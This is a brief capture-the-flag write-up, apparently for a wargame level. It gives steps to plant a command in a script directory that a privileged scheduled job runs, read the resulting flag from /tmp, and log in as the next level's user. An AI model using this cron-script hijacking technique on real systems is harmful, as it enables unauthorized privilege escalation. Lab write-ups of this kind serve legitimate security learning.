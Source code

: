 ssh:
- `echo 'getflag > /tmp/flag' > /opt/openarenaserver/get_flag.sh`
- wait 1-2 minutes
- `cat /tmp/flag`, copy the flag
- `su level06`, paste the flag as the password